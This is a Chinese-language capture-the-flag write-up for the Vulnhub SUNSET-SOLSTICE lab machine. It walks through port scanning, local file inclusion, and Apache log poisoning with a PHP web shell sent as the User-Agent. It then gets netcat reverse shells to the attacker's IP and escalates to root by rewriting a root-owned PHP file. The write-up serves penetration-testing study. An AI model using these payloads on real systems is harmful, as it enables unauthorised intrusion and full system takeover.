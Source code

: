 ```yaml
---

title: Vulnhub 499 SUNSET-SOLSTICE
date: 2020-06-26 
---
```


考点：文件包含、权限继承

靶机链接：<https://www.vulnhub.com/entry/sunset-solstice,499/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SOLSTICE   | 10.0.2.4  |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.4
$ nmap -v -A -p- $rip
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice Hello localhost [10.0.2.15], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.4:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
62524/tcp open  tcpwrapped
Service Info: Host: solstice; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 1s
| nbstat: NetBIOS name: SOLSTICE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SOLSTICE<00>         Flags: <unique><active>
|   SOLSTICE<03>         Flags: <unique><active>
|   SOLSTICE<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: \x00
|   NetBIOS computer name: SOLSTICE\x00
|   Workgroup: WORKGROUP\x00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


```

### WEB测试

发现web端口，优先进行web漏洞测试

- 80端口没发现啥问题，纯粹是个兔子洞，那个`phpIPAM`最后进系统一看，各种空文件
- 8593端口存在本地文件包含漏洞，应该是这里搞突破了

```http
http://10.0.2.4:8593/index.php?book=/../../../../../etc/passwd
```

### 漏洞发现

于是想包含apache2日志或者auth.log

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/auth.log>发现包含失败，应该是权限不够。

试图包含 <http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log发现日志未写入，测试80和54787> web应用，访问

```http
http://10.0.2.4:80/p80
http://10.0.2.4:54787/p54787
```

发现对<http://10.0.2.4:80>的访问会写入`/var/log/apache2/access.log`日志。

## 获得权限

### 本地测试

本地启动`/etc/init.d/apache2 start`

测试 将一句话通过user-agent写入apache2日志文件

```bash
curl http://10.0.2.15 -A '<?php system($_GET[123]);?>'
```

![1](https://static.iihack.com/vulnhub/499/1.JPG)

![2](https://static.iihack.com/vulnhub/499/2.JPG)

写入成功

### 靶机测试

#### 思路一

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

浏览器访问

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log&123=nc 10.0.2.15 444 -e /bin/bash
```

获得反弹shell，权限是`www-data`

![4](https://static.iihack.com/vulnhub/499/4.JPG)

尝试写入当前目录，发现可写，果断wget一句话连antsword。

![5](https://static.iihack.com/vulnhub/499/5.JPG)

这里第一次连接失败，断掉nc连接成功

![6](https://static.iihack.com/vulnhub/499/6.JPG)

#### 靶机测试-思路二

也可以直接写antsword用的`<?php eval($_POST[123]); ?>`

```bash
curl http://10.0.2.4 -A '<?php system($_GET[123]);?>'
```

antsword连上

```http
http://10.0.2.4:8593/index.php?book=/../../../../../var/log/apache2/access.log
```

 密码 `123`

#### 靶机测试-思路三

还可以使用burpsuite提交`<?php eval($_POST['cmd']); ?>`burpsuite可避免转义

## 提权

一番查看进程，发现有个root权限启动的web服务在57端口

![7](https://static.iihack.com/vulnhub/499/7.JPG)

刚好该目录index.php文件可以写入，果断写入nc反弹

```php
system('nc 10.0.2.15 555 -e /bin/sh');
```

![9](https://static.iihack.com/vulnhub/499/9.JPG)

执行curl获得root

```bash
curl http://127.0.0.1:57
```

![10](https://static.iihack.com/vulnhub/499/10.JPG)
